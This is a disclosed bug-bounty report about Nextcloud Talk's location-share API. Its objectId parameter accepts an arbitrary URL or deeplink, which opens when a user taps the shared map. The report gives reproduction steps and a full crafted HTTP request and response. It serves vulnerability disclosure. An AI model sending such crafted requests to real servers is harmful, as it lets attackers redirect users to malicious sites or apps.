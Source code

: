 # objectId in share location can be set to open arbitrary URL or Deeplinks

## Report Details
- **Report ID**: 1337178
- **URL**: https://hackerone.com/reports/1337178
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2021-09-11T18:08:30.290Z
- **Disclosed**: 2022-03-08T16:11:41.630Z

## Reporter
- **Username**: ctulhu
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nextcloud

## Vulnerability Information
## Summary:
The NextCloud Talk app allows a user to share their location in the Mobile App.
The objectId= in ```/ocs/v2.php/apps/spreed/api/v1/chat/$token/share``` Can be set to a URL or Deeplink, While the ```metaData=``` will render the map, Once a user clicked the map it will open the defined URL or Deeplink in the crafted request.

For days, I've been thinking and trying different ways to Increase its Severity but i guess im stuck so here i am Reporting this.




## Steps To Reproduce:
Note: Location Sharing is only allowed in the Mobile App.

* 1.) Using the app share your location and Intercept it, The request should be similar to the ```Request``` Below.
* 2.) Alter the ```objectId=``` to whatever URL you want to point it at.
* 3.) Send the Request
* 4.) Using the Mobile app, Click the map and it will redirect you to the url.

## Supporting Material/References:
[list any additional material (e.g. screenshots, logs, etc.)]

### Request

  ```
POST /ocs/v2.php/apps/spreed/api/v1/chat/wqfqmw9n/share HTTP/2
Host: localhost
Cookie: oc_sessionPassphrase=cookie; __Host-nc_sameSiteCookielax=true; __Host-nc_sameSiteCookiestrict=true; occi3pyo3vg0=6lheeis7ot8kcnvdgq12ijl90e
Authorization: Basic 
User-Agent: Mozilla/5.0 (Android) Nextcloud-Talk v12.2.1
Accept: application/json
Ocs-Apirequest: true
Content-Type: application/x-www-form-urlencoded
Content-Length: 227
Accept-Encoding: gzip, deflate

objectType=geo-location&objectId=https://ctulhu.me&referenceId=kkk&metaData={"type":"geo-location","id":"geo:14.600765443470294,121.00452968052457","latitude":"14.600765443470294","longitude":"121.00452968052457","name":"hehe"}
```

### Response

```
HTTP/2 201 Created
Date: Sat, 11 Sep 2021 17:30:22 GMT
Content-Type: application/json; charset=utf-8
Content-Length: 509
Expires: Thu, 19 Nov 1981 08:52:00 GMT


{"ocs":{"meta":{"status":"ok","statuscode":201,"message":"OK"},"data":{"id":237,"token":"wqfqmw9n","actorType":"users","actorId":"secret","actorDisplayName":"secret","timestamp":1631381422,"message":"{object}","messageParameters":{"actor":{"type":"user","id":"secret","name":"secret"},"object":{"type":"geo-location","id":"https:\/\/ctulhu.me","latitude":"14.600765443470294","longitude":"121.00452968052457","name":"hehe"}},"systemMessage":"","messageType":"comment","isReplyable":true,"referenceId":"kkk"}}}

```

## Impact

A attacker can abuse this to fool the user to open a malicious url or 3rd party app.

## Attachments
No attachments
